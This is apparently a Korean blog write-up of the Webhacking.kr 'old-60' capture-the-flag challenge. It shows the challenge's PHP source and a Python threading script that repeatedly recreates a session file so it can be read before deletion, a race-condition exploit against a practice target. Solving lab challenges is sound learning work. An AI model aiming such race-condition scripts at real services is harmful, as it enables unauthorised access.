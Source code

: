 ```yaml
---
title: ["[Webhacking.kr] old-60 (race condition - 30)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, race condition]
---
```


```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
  login_chk();
  echo "Your idx is {$_SESSION['idx']}<hr>";
  if(!is_numeric($_COOKIE['PHPSESSID'])) exit("Access Denied<br><a href=./?view_source=1>view-source</a>");
  sleep(1);
  if($_GET['mode']=="auth"){
    echo("Auth~<br>");
    $result = file_get_contents("./readme/{$_SESSION['idx']}.txt");
    if(preg_match("/{$_SESSION['idx']}/",$result)){
      echo("Done!");
      unlink("./readme/{$_SESSION['idx']}.txt");
      solve(60);
      exit();
    }
  }
  $p = fopen("./readme/{$_SESSION['idx']}.txt","w");
  fwrite($p,$_SESSION['idx']);
  fclose($p);
  if($_SERVER['REMOTE_ADDR']!="127.0.0.1"){
    sleep(1);
    unlink("./readme/{$_SESSION['idx']}.txt");
  }
?>
```

먼저, `PHPSESSID`를 숫자로 바꿔 `Access Denied`에러가 뜨는 것을 해결한다.
`./readme/idx.txt`에 접근을 하면 되는데, 로컬 호스트가 아니라면 1초뒤에 파일이 삭제된다.  

즉, race condition을 이용하여 파일이 삭제되기 전에 접근하면 되겠다.  

```python
import requests
import threading
import time

def create_file(url, cookies):
    count = 0
    while True:
        try:
            r = requests.get(url, cookies=cookies)
            count += 1
            print(f"[+] Create file attempt #{count}")
            time.sleep(0.1) 
        except Exception as e:
            print(f"[-] Error in create_file: {e}")

def main():
    url = "https://webhacking.kr/challenge/web-37/" 
    cookies = {
        "PHPSESSID": "180100"  
    }
    
    creator = threading.Thread(target=create_file, args=(url, cookies))
    creator.daemon = True
    creator.start()

    try:
        while True:
            time.sleep(1)
    except KeyboardInterrupt:
        print("\n[!] Stopping exploit")

if __name__ == "__main__":
    main()
```

python requests 모듈을 사용해서 파일을 계속 생성하고,  
브라우저에서 `?mode=auth`로 파일을 읽어오자.  

이때 세션이 서로 달라야 하므로, `PHPSESSID`를 다른 숫자로 써야 한다.  